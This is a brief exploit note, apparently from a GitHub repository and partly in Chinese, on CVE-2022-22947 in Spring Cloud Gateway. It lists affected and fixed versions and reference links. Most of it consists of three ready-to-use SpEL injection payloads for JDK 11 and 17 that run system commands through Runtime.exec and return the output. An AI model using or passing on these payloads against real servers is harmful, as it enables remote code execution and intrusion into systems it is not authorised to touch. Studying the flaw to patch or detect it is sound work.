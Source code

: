 ### CVE-2022-22947
jdk17
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
jdk11
```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('id').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
另外的payload：
```
#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/Spring%20Cloud%20Gateway%20Actuator%20API%20SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%EF%BC%88CVE-2022-22947%EF%BC%89.md
- https://www.pmnh.site/post/writeup_spring_el_waf_bypass/


#### 测试环境
- https://github.com/wdahlenburg/spring-gateway-demo


修复版本：3.1.1
![image](https://user-images.githubusercontent.com/30398606/175478287-fb2babf6-b69d-4147-bbef-54f7d913e606.png)


受影响版本：
```
org.springframework.cloud:spring-cloud-gateway-server@[3.1.0, 3.1.1)
org.springframework.cloud:spring-cloud-gateway-server@[2.2.6.RELEASE, 3.0.7)
```
![image](https://user-images.githubusercontent.com/30398606/175480199-c483b215-0511-4f7e-94ef-faad4f6353e9.png)


